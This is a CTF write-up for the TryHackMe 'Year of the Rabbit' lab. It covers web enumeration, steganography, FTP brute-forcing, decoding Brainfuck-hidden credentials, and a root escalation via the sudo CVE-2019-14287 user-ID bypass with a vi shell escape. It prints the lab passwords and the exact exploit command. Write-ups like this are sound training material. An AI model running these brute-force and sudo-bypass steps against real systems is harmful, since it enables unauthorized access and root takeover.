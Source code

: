```yaml
---
layout: post
title:  "THM - Year of the Rabbit"
date:   2020-07-25 06:00:00 +1000
category: hacking
---
```


## Introduction
*Can you hack into the Year of the Rabbit box without falling down a hole?*  

This is an easy rated box, and I'm a bit concerned that it's an easy exploit hidden behind some annoyingly difficult to find folder on a website; we'll see if that's true.

## nmap
So this one has FTP, SSH and HTTP on port 80. There is no anonymous login on the FTP. It's running vsftpd 3.0.2, which isn't apparently a vulnerable version.

## Webserver
The webserver is just showing the default apache page, so we'll try a basic gobuster with the dirb 'big' wordlist; we quickly find a folder called /assets. This contains two files:

>[VID]	RickRolled.mp4	2020-01-23 00:34 	384M  
[TXT]	style.css	2020-01-23 00:34 	2.9K	 

The style.css file contains a link to **/sup3r_s3cr3t_fl4g.php**, which in turns links to Never Gonna Give You Up on Youtube. 

There is also a message:

*This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!*

We can download the RickRolled video file, and about 1 minute in the audio fades and a voice says that you're 'looking in the wrong place'. So presumably the /assets directory was one of the 'rabbit holes'.

## Burp Suite
One of the nice things about Burp Suite is the 'target' tab, where it collates a list of links on the host. When we take a look there we can find this: 

http://10.10.172.98/intermediary.php?hidden_directory=/WExYY2Cv-qU

Presumably this link was hit when we followed the sup3r_s3cr3t_fl4g.php link earlier. 

Going there reveals a picture:

http://10.10.172.98/WExYY2Cv-qU/Hot_Babe.png

## Stego
Ahhh my favourite, stego. I often find myself referring back to [this](https://0xrick.github.io/lists/stego/) for these CTF stego things. In this case:

{% highlight shell %}
root@kali:/opt/tryhackme/rabbit# zsteg -a Hot_Babe.png 
[?] 1244 bytes of extra data after image end (IEND), offset = 0x73ae7
extradata:0         .. text: "Ot9RrG7h2~24?\nEh, you've earned this. Username for FTP is ftpuser\nOne of these is the password:\nMou+56n%QK8sr\n1618B0AUshw1M\nA56IpIl%1s02u\nvTFbDzX9&Nmu?\nFfF~sfu^UQZmT\n8FF?iKO27b~V0\nua4W~2-@y7dE$\n3j39aMQQ7xFXT\nWb4--CTc4ww*-\nu6oY9?nHv84D&\n0iBp4W69Gr_Yf\nTS*%miyPsGV54\nC77O3FIy0c0sd\nO14xEhgg0Hxz1\n5dpv#Pr$wqH7F\n1G8Ucoce1+gS5\n0plnI%f0~Jw71\n0kLoLzfhqq8u&\nkS9pn5yiFGj6d\nzeff4#!b5Ib_n\nrNT4E4SHDGBkl\nKKH5zy23+S0@B\n3r6PHtM4NzJjE\ngm0!!EC1A0I2?\nHPHr!j00RaDEi\n7N+J9BYSp4uaY\nPYKt-ebvtmWoC\n3TN%cD_E6zm*s\neo?@c!ly3&=0Z\nnR8&FXz$ZPelN\neE4Mu53UkKHx#\n86?004F9!o49d\nSNGY0JjA5@0EE\ntrm64++JZ7R6E\n3zJuGL~8KmiK^\nCR-ItthsH%9du\nyP9kft386bB8G\nA-*eE3L@!4W5o\nGoM^$82l&GA5D\n1t$4$g$I+V_BH\n0XxpTd90Vt8OL\nj0CN?Z#8Bp69_\nG#h~9@5E5QA5l\nDRWNM7auXF7@j\nFw!if_=kk7Oqz\n92d5r$uyw!vaE\nc-AA7a2u!W2*?\nzy8z3kBi#2e36\nJ5%2Hn+7I6QLt\ngL$2fmgnq8vI*\nEtb?i?Kj4R=QM\n7CabD7kwY7=ri\n4uaIRX~-cY6K4\nkY1oxscv4EB2d\nk32?3^x1ex7#o\nep4IPQ_=ku@V8\ntQxFJ909rd1y2\n5L6kpPR5E2Msn\n65NX66Wv~oFP2\nLRAQ@zcBphn!1\nV4bt3*58Z32Xe\nki^t!+uqB?DyI\n5iez1wGXKfPKQ\nnJ90XzX&AnF5v\n7EiMd5!r%=18c\nwYyx6Eq-T^9\#@\nyT2o$2exo~UdW\nZuI-8!JyI6iRS\nPTKM6RsLWZ1&^\n3O$oC~%XUlRO@\nKW3fjzWpUGHSW\nnTzl5f=9eS&*W\nWS9x0ZF=x1%8z\nSr4*E4NT5fOhS\nhLR3xQV*gHYuC\n4P3QgF5kflszS\nNIZ2D%d58*v@R\n0rJ7p%6Axm05K\n94rU30Zx45z5c\nVi^Qf+u%0*q_S\n1Fvdp&bNl3#&l\nzLH%Ot0Bw&c%9\n"
imagedata           .. text: "*>7%OF\" "
b3,r,msb,xy         .. text: "@OXa|j1F"
b3,b,msb,xy         .. text: "e0\n5@m0gMm"
**snip**
{% endhighlight %}

So we've got an FTP user name and a bunch of potential passwords (about 80 of them).

## FTPBruter
I put the passwords into a file called plist.txt and ran it through FTPBruter:

{% highlight shell %}
[i] FTPBruter - A FTP server Brute forcing tool written in Python 3
    Author: https://GitHackTools.blogspot.com 

[-] Enter the target address: 10.10.172.98
[?] Do you want to use username list? [Y/n]: n
[-] Enter username: ftpuser
[-] Enter the path of wordlisplist.txt         
[i] Brute force is performing...

[i] Brute force has done!
    Username :  ftpuser
    Password :  5iez1wGXKfPKQ

[i] Press Ctrl+C to exit right now!
{% endhighlight %}

## FTP
We've got one file:

{% highlight shell %}
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Elis_Creds.txt
226 Directory send OK.
{% endhighlight %}

When we get the file, it's BrainF*** code. Um....yeah.

## BF
We can paste the code into [this site](https://copy.sh/brainfuck/) and extract the credentials:

{% highlight shell %}
User: eli
Password: DSpDiM1wAEwid
{% endhighlight %}

# SSH
So these are SSH creds for eli, and when we log in we see this:

>*1 new message
Message from Root to Gwendoline:  
"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place.   I've left you a hidden message there"  
END MESSAGE*  

When we **cat /etc/passwd**, we can see there is indeed a user called gwendoline, and it seems like we need to find a message left for her.

## Search by date
No doubt there are a few ways to find this, but looking around we can see that many of the files were created on Jan 23 2020, so let's search for that:
{% highlight shell %}
eli@year-of-the-rabbit:/$ find . -type f -ls 2>/dev/null | grep 'Jan 23'
{% endhighlight %}
Bingo!
{% highlight shell %}
36980    4 -rw-r--r--   1 root     root          138 Jan 23  2020 ./usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
{% endhighlight %}
What does it say?

>*Your password is awful, Gwendoline.   
It should be at least 60 characters long! Not just MniVCQVhQHUNI  
Honestly!  
Yours sincerely  
   -Root*

So with this information we can su as gwendoline.

## Gwendoline

Running **sudo -l** we can see this:
{% highlight shell %}
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
{% endhighlight %}    
The version of sudo we have is 1.8.10p3, which is vulnerable to CVE-2019-14287 and that means we can do this:
{% highlight shell %}
gwendoline@year-of-the-rabbit:/etc$ sudo -u \#$((0xffffffff)) /usr/bin/vi /home/gwendoline/user.txt
{% endhighlight %}
And once we're in vi, we can do **:!/bin/sh** - and we've got a root shell.
